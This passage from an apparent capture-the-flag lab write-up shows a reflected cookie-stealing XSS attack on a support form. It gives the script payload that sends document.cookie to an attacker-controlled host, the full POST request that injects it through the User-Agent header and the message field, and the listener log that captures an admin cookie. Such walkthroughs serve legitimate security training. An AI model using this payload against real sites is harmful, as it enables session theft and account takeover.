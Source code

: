 As next step we used a `cookie stealing XSS payload` and injected it to the `User-Agent` of the `HTTP request` because it got reflected in earlier tests with `<h1>TEST</h1>` in the error message output and we also put the payload into the `message box`.

```c
<script>new Image().src='http://10.10.14.141/p?c='+document.cookie</script>
```

```c
POST /support HTTP/1.1
Host: 10.129.237.154:5000
User-Agent: <script>new Image().src='http://10.10.14.141/p?c='+document.cookie</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 188
Origin: http://10.129.237.154:5000
DNT: 1
Connection: close
Referer: http://10.129.237.154:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

fname=foobar&lname=foobar&email=foobar%40foobar.local&phone=1234567890&message=%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2F10.10.14.141%2Fp%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E


```

We forwarded the message and got another response from the server, which we also forwarded.

```c
GET /p?c=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1
Host: 10.10.14.141
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Referer: http://10.129.237.154:5000/
Sec-GPC: 1


```

After a minute we received `two callbacks` on our local `web server`. The second one was the cookie of a user which allowed us to access the `/dashboard` endpoint.

```c
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.141 - - [23/Mar/2024 15:19:07] code 404, message File not found
10.10.14.141 - - [23/Mar/2024 15:19:07] "GET /p?c=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1" 404 -
10.129.237.154 - - [23/Mar/2024 15:19:23] code 404, message File not found
10.129.237.154 - - [23/Mar/2024 15:19:23] "GET /p?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

